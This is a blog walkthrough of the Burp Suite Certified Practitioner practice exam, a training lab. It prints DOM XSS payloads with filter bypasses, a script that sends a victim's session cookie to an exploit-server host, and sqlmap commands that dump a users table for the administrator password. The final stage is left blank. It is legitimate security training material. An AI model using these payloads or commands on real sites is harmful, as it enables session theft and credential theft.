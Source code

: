 ```yaml
---
title: BurpSuite Certified Practitioner Practice Exam
author: H0j3n
date: 2021-11-11 00:00:00
categories: [Webs]
tags: [Webs]
render_with_liquid: false
---
```


### Introduction

PortSwigger has introduced the **Burp Suite Certified Practitioner** accreditation this year. It is a **three-hour** exam and by passing one you'll be able to demonstrate the ability to:

- Detect and exploit common web vulnerabilities.
- Display knowledge of fundamental web technologies
- Adapt attacks to evade common defenses.

The Burp Suite Certified Practitioner exam costs **$99** and you will need to have an **active subscription** to Burp Suite Professional. You can get certified by using only this 3 steps.

![](https://github.com/H0j3n/H0j3n.github.io/assets/img/uploads/1_burp/burp_step_certs.PNG)

Also, if you pass the exam before 15 Dec they will **refund** your $99!

### Burp Suite Certified Practitioner Practice Exam

I will not go further into the explanation of the practice exam as you can read more in [here](https://portswigger.net/web-security/certification/practice-exam) . But there are three (3) stages that we need to complete:

- **Stage 1**: Access any user account.
- **Stage 2**: Use your user account to access the admin interface at **/admin**, perhaps by elevating your privileges or compromising the administrator account.
- **Stage 3**: Use the admin interface to read the contents of **/home/carlos/secret** from the server's filesystem, and submit it using **"submit solution"**.

Before we go through the practice exam, there are few things to take notes.

~~~
-> All the parameters found in this walkthrough might change and will not be the same as yours.
~~~

#### Walkthrough 1/3

When we open the challenge, we can see there is a search function. You can try with a simple payload to check different vulnerabilities such as `single quote (')`, XSS payload or etc. When we try put for example `test123` and view the Burp HTTP history, we can see also `searchResults.js` been requested.

![](https://github.com/H0j3n/H0j3n.github.io/assets/img/uploads/1_burp/burp_found_js.png)

From here, we can see inside the javascript there is `eval` function been used.

![](https://github.com/H0j3n/H0j3n.github.io/assets/img/uploads/1_burp/burp_found_eval.png)

Thanks to [@r00tpgp](https://www.r00tpgp.com/2021/08/burp-suite-certified-practitioner-exam.html) blog, I learn something new. We can use this Chrome extension to easily discover and test inputs passed into sinks that could lead to **DOM XSS vulnerabilities**.

- [Untrusted Types For DevTools](https://chrome.google.com/webstore/detail/untrusted-types-for-devto/bpeblffgmddnafmnmdjohcmkbeifdlnb?hl=en)

![](https://github.com/H0j3n/H0j3n.github.io/assets/img/uploads/1_burp/chrome_extension_untrusted.PNG)

When we search something again, we could see this in our **console**.

![](https://github.com/H0j3n/H0j3n.github.io/assets/img/uploads/1_burp/console_js.png)

Here are payloads that will works:

~~~
"-alert(1)-"
\\"-alert(1)}//
"-alert(1)}//
~~~

Now, let's create a payload to alert cookies. 

~~~
"-alert(document.cookie)-"
~~~

We notice that it will get blocked.

![](https://github.com/H0j3n/H0j3n.github.io/assets/img/uploads/1_burp/payload_blocked.png)

Using global variables, we can bypass it.

~~~
"-alert(window["document"]["cookie"])-"
"-window["alert"](window["document"]["cookie"])-"
"-self["alert"](self["document"]["cookie"])-"
~~~

Let's create another payload to test before send to our exploit server. But, this will also get blocked.

~~~
"-(window["document"]["location"]="https://<CHANGE_HERE>.web-security-academy.net/?"+window["document"]["cookie"])-"
~~~

By replacing `.` with `%2e` we are able to bypass it.

~~~
"-(window["document"]["location"]="https://<CHANGE_HERE>%2eweb-security-academy%2enet/?"+window["document"]["cookie"])-"
~~~

![](https://github.com/H0j3n/H0j3n.github.io/assets/img/uploads/1_burp/cyberchef_urlencode_1.png)

We can see our **session key** in log.

![](https://github.com/H0j3n/H0j3n.github.io/assets/img/uploads/1_burp/session_log.png)

When we try to use the first payload **(Before URL Encode)**, it doesn't work. After we use the second payload **(After URL Encode)**, it seems to work now. You can use [CyberChef](https://gchq.github.io/CyberChef/) as it easy to use.

~~~
# Before URL Encode
<script>
location='https://<CHANGE_HERE>.web-security-academy.net/?find="-(window["document"]["location"]="https://<CHANGE_HERE>>%2eweb-security-academy%2enet/?"+window["document"]["cookie"])-"';
</script>

# After URL Encode
<script>
location='https://<CHANGE_HERE>.web-security-academy.net/?find=%22%2D%28window%5B%22document%22%5D%5B%22location%22%5D%3D%22https%3A%2F%2F<CHANGE_HERE>%252eweb%2Dsecurity%2Dacademy%252enet%2F%3F%22%2Bwindow%5B%22document%22%5D%5B%22cookie%22%5D%29%2D%22';
</script>
~~~

![](https://github.com/H0j3n/H0j3n.github.io/assets/img/uploads/1_burp/cyberchef_urlencode_2.png)

Nice! We got the session cookie **(Carlos)** in our log.

![](https://github.com/H0j3n/H0j3n.github.io/assets/img/uploads/1_burp/session_log_2.png)

Change the session cookie and we will get login as **Carlos**!

![](https://github.com/H0j3n/H0j3n.github.io/assets/img/uploads/1_burp/carlos_login.png)


#### Walkthrough 2/3

There is new features `Advanced Search` that we could access using **Carlos** account.

![](https://github.com/H0j3n/H0j3n.github.io/assets/img/uploads/1_burp/advanced_search.png)

By inserting `single quote (')` on the second parameter it will give us SQL Error **(PostgreSQL)**.

~~~
https://<CHANGE_HERE>.web-security-academy.net/advancedsearch?find=test&organize_by='&writer=
~~~

![](https://github.com/H0j3n/H0j3n.github.io/assets/img/uploads/1_burp/sql_error.png)

Since we know the parameter that vulnerable to **SQLi**, we can now use **SQLMap**.

~~~
(1)
python sqlmap.py -u "https://<CHANGE_HERE>.web-security-academy.net/advancedsearch?find=test&organize_by=*&writer=" --cookie="_lab=<CHANGE_HERE>;session=<CHANGE_HERE>" --batch

(2) - Get Databases
python sqlmap.py -u "https://<CHANGE_HERE>.web-security-academy.net/advancedsearch?find=test&organize_by=*&writer=" --cookie="_lab=<CHANGE_HERE>;session=<CHANGE_HERE>" --dbs --batch

(3) - Get Tables
python sqlmap.py -u "https://<CHANGE_HERE>.web-security-academy.net/advancedsearch?find=test&organize_by=*&writer=" --cookie="_lab=<CHANGE_HERE>;session=<CHANGE_HERE>" -D public --tables --batch

(4) - Dump Specific Table
python sqlmap.py -u "https://<CHANGE_HERE>.web-security-academy.net/advancedsearch?find=test&organize_by=*&writer=" --cookie="_lab=<CHANGE_HERE>;session=<CHANGE_HERE>" -D public -T users --dump --batch
~~~

We will then be able to dump the `users` tables and get the `administrator` password!

![](https://github.com/H0j3n/H0j3n.github.io/assets/img/uploads/1_burp/sqlmap_output.png)

Login as `administrator` and delete **Carlos** account to complete the second (2) stage.

![](https://github.com/H0j3n/H0j3n.github.io/assets/img/uploads/1_burp/deleted_carlos.png)

If you want to use **SQLMap** in Windows, make sure you have **Python2/Python3** and download the `zip` file from [here](https://sqlmap.org/)

#### Walkthrough 3/3

### Conclusion

### References

- https://www.r00tpgp.com/2021/08/burp-suite-certified-practitioner-exam.html
- https://techblog.mediaservice.net/2017/05/reliable-discovery-and-exploitation-of-java-deserialization-vulnerabilities/
- https://www.secjuice.com/bypass-xss-filters-using-javascript-global-variables/

